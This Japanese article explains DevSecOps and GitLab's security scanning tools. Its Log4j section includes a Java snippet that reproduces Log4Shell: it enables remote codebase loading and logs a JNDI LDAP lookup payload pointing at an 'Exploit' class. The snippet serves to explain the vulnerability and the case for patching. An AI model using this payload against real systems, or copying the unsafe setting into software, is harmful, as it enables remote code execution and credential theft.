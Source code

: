 <!-- omit in toc -->
# GitLabでのDevSecOps説明

## 概要

本稿では、DevSecOpsが必要とされるようになった経緯と、GitLabでのDevSecOps実現方法について説明する。

近年、DevOpsに「セキュリティ（Security）」の要素を追加したDevSecOpsが注目されており、GitLabもDevOpsプラットフォームとして、セキュリティ機能の統合に注力している。

## 目次

- [概要](#概要)
- [目次](#目次)
- [DevSecOpsが必要とされる経緯](#devsecopsが必要とされる経緯)
  - [OSSの深刻な脆弱性の実例](#ossの深刻な脆弱性の実例)
  - [OSSの多用](#ossの多用)
  - [DevSecOpsの誕生](#devsecopsの誕生)
- [GitLabでのDevSecOps](#gitlabでのdevsecops)
- [参考リンク](#参考リンク)

## DevSecOpsが必要とされる経緯

従来の開発では、セキュリティ対策は開発の最後の工程、あるいはリリース後にセキュリティ有識者が実施するものであり、開発者はXSSやSQLインジェクションなど代表的な脆弱性を意識すれば必要十分だった。

しかし、OSSを多用した短期間サイクルのモダンな開発では、リリース前のセキュリティ有識者による検証はボトルネックとなるリスクがある。各開発者が実装段階でセキュリティ対策を意識し、開発チーム・運用チームを含めたプロダクトに関わる全員の責任として対応することが求められている。

![Alt text](img/shiftleft.png)
※出典 [Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

### OSSの深刻な脆弱性の実例

2021年12月、Log4j(Javaで使用されるロギングライブラリ)に重大な脆弱性が発見されました。多くのシステムがこのライブラリを使用していたため被害が全世界に広がり、OSSの脆弱性がどれほど深刻な影響をもたらす可能性があるか、多くの企業が認識することとなった。

この深刻な脆弱性Log4jShell(CVE-2021-44228)は、JNDI Lookup機能（ログとして記録された文字列から、一部の文字列を変数として置きかえる機能）を悪用します。ログに書き込まれた特殊な文字列を実行し、第三者がリモートでjava classファイルを読み込んで実行できる。

脆弱性は以下のシンプルなコードで再現できる。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jSample {

  private static final Logger logger = LogManager.getLogger(Log4jSample.class);

    public static void main( String[] args ) {
        // 6u211、7u201、8u191、11.0.1以上のJDKバージョンはデフォルトでfalseなので
        // 今回の脆弱性は起きない
      System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        // JNDIのLookUp機能により、ただの文字列ではなく外部へのアクセスが実行されてしまう
      logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

※出典 [【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)

logger.errorに「${jndi:ldap://~}」という文字列が埋め込むことで攻撃が成立する。指定したLDAPから返却されるパスに攻撃用のjava classファイルを配置すれば対象のWebサーバで任意のコードが実行できる。実際にこのシンプルなコードで再現できる脆弱性を利用して、ユーザ名・パスワード、トークンが流出し、サーバの設定によってはDBからテーブルを丸ごと抜き出すことや他のサーバへの攻撃の踏み台になる。

対策としてApach.orgは緊急パッチをリリースしているため、ライブラリのアップデートによってこの問題は回避できる。しかし、OSSの原則として脆弱性による損害は使用者が責任を負うため、いち早く脆弱性の情報を収集しパッチをあてることが重要となる。

### OSSの多用

上記の脆弱性が潜在的に全てのライブラリに存在する可能性がある。ライブラリのバージョンやソースコードの変更がなくても、明日には新たな脆弱性が明らかになる可能性があり、使用しているOSSのライブラリの数が多ければそのリスクは増加する。

しかし、ツリー構造で参照され、パッケージマネージャーで芋づる式に取得されるライブラリの脆弱性情報を、セキュリティ有識者ではない各開発者が日々追跡するのは事実上困難である。実際のところ、日々の開発する中で現在参照しているバージョンに問題がないのかを把握することすら、かなりの労力が必要となる。

```mermaid
graph TB
subgraph OSSライブラリ依存関係イメージ
  A-->B
  B-->C
  C-->D
  A-->E
  A-->F
  F-->G
  C-->脆弱性あり!!!
  E-->I
  I-->J
  F-->C
  F-->P
  I-->K
  E-->L
  C-->M
  L-->M
  E-->P
  P-->Q
end
```

### DevSecOpsの誕生

上記の経緯から、日々更新されるライブラリの脆弱性情報を取得し、開発サイクルの中にセキュリティ対策を組み込むDevSecOpsという概念が生まれた。開発者が実装の早い段階(シフトレフト)でセキュリティ対策する仕組みが必要とされている。

![Alt text](img/devsecops_lifecycle.png)

しかし、理想とセキュリティ有識者ではない開発者が独力でセキュリティ問題を発見・解決することの実現にはギャップがある。GitLabは、そのギャップを埋めるために開発者のセキュリティ対策をサポートする仕組みを提供している。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 -- ギャップ --> 使用ライブラリ把握
セキュリティ対策 -- ギャップ --> ライブラリの脆弱性最新情報
セキュリティ対策 -- ギャップ --> セキュアな実装
セキュリティ対策 -- ギャップ --> トークン/パスワードの漏洩
セキュリティ対策 -- ギャップ --> ライセンス汚染
セキュリティ対策 -- ギャップ --> クラウド設定セキュリティホール
```

## GitLabでのDevSecOps

Log4jの問題からわかるように、ソースコードをベースとしたセキュリティ対策には大きく2つの側面がある。

- 使用しているライブラリに脆弱性が存在しないか
- 自分たちが実装したコードに脆弱性が存在しないか

前者がDependency ScanやContainer Scanと呼ばれる依存ライブラリのチェックとなり、後者がSASTと呼ばれる静的コード解析になる。

![Alt text](img/gitlab_cicd_devsecops.png)
![Alt text](img/gitlab_securitydashboard.png)

GitLabのSASTやDependency Scanは、日々更新されるライブラリやフレームワークの脆弱性情報を自動で取得し、いち早く脆弱性情報と修正方法を提供する。セキュリティ専門知識と開発者のギャップを提案形式で補い、リポジトリ、CICDと連携しながらオールインワンでシフトレフトのセキュリティ対策を実現するのが、GitLabが提供するDevSecOpsである。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph GitLab 脆弱性レポート
  依存関係リスト
  DependencyScan/ContainerScan
  SAST
  SecretDetection
  LicenseScan
  IaCScan
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 --> 依存関係リスト
セキュリティ対策 --> DependencyScan/ContainerScan
セキュリティ対策 --> SAST
セキュリティ対策 --> SecretDetection
セキュリティ対策 --> LicenseScan
セキュリティ対策 --> IaCScan
依存関係リスト --> 使用ライブラリ把握
DependencyScan/ContainerScan --> ライブラリの脆弱性最新情報
SAST --> セキュアな実装
SecretDetection --> トークン/パスワードの漏洩
LicenseScan --> ライセンス汚染
IaCScan --> クラウド設定セキュリティホール
```

## 参考リンク

[Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

[【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)
